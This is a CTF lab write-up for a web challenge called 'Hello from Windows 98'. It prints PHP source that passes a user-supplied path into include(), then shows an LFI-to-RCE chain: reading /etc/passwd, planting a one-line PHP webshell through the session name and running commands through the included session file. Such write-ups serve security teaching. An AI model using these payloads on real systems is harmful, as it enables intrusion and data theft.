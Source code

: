 ```yaml
---
title: Simple Web 0x01(Lab - Hello from Windows 98)
tags: [CTF, Web, eductf]

category: "Security/Course/NTU CS/Web"
---
```


# Simple Web 0x01(Lab - Hello from Windows 98)
<!-- more -->
###### tags: `CTF` `Web` `eductf`
Challenge: https://windows.ctf.zoolab.org/

Very similar to [0x07(Lab - `HakkaMD`)](/nGAjlvyURtOcRBW1XfCfOA)

## Source code
:::spoiler code
```php!=
 <?php
  session_start();
  if(isset($_GET['source'])){
    highlight_file('./'.$_GET['source'].'.php');
    die();
  }
  if(isset($_GET['name']) && $_GET['name']!=''){
    $_SESSION['name'] = $_GET['name'];
    header("Location: /?page=hi.php");
    die();
  }
  if(!isset($_GET['page'])){
    header("Location: /?page=say.php");
    die();
  }
?>
<!DOCTYPE html>
<html>
<head>
  <title>Hello from Windows 98</title>
  <meta charset="UTF-8" />
  <link rel="stylesheet" href="https://unpkg.com/98.css" />
</head>
<style>
    body{
        background: url('blue.png');
        background-size: cover;
        display: flex;
        align-items: center;
        justify-content: center;
        height: 100vh;
        margin: 0;
    }
</style>
</style>
<body>
  <div class="window" style="margin: 32px; width: 500px">
    <div class="title-bar">
      <div class="title-bar-text">
        Hello World..
      </div>
      <div class="title-bar-controls">
        <button aria-label="Minimize"></button>
        <button aria-label="Maximize"></button>
        <button aria-label="Close"></button>
      </div>
    </div>
    <div class="window-body">
      <?php include($_GET['page']);?>
    </div>
  </div>
</body>
</html>

```
:::

## Exploit - LFI to RCE
1. First things first, the website has `LFI` problem
`https://windows.ctf.zoolab.org/?page=/etc/passwd`
![](https://i.imgur.com/2BHfWtQ.png)

2. <font color="FF0000">**通靈**</font>
It didn't provide any information about system, so we can assume the setting is default at first.

3. `webshell`
`<?php system($_GET['sh']); ?>`
↓
We use `LFI` to read session file:
`https://windows.ctf.zoolab.org/?page=/tmp/sess_995c0ecc84473170723e595f9f4b8829`
![](https://i.imgur.com/gAnKZGF.png)
It execute system function successfully.
↓
`https://windows.ctf.zoolab.org/?page=/tmp/sess_995c0ecc84473170723e595f9f4b8829&sh=ls%20/var/www/html`
↓
![](https://i.imgur.com/JOOmyyl.png)
↓
`https://windows.ctf.zoolab.org/?page=/tmp/sess_995c0ecc84473170723e595f9f4b8829&sh=cat%20/var/www/html/flag.txt`
4. Then we got flag!!!